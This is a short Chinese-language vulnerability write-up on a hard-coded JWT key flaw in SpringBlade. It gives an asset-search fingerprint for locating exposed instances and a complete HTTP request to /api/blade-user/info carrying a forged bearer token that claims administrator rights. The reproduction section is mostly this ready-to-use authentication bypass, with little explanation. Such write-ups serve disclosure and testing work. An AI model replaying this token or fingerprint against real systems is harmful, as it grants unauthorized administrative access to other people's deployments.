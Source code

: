 # SpringBlade 存在硬编码密钥漏洞

# 一、漏洞简介
SpringBlade 存在硬编码密钥漏洞。

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/PHANNrjTK85iKF79/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-649072.png)

# 四、漏洞复现
```plain
GET /api/blade-user/info HTTP/1.1
Host: 
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
```

![1711951677631-572e0290-8233-4ed1-898a-f96f1c73c3ba.png](./img/PHANNrjTK85iKF79/1711951677631-572e0290-8233-4ed1-898a-f96f1c73c3ba-191658.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ffc80mpe9xmcekvp>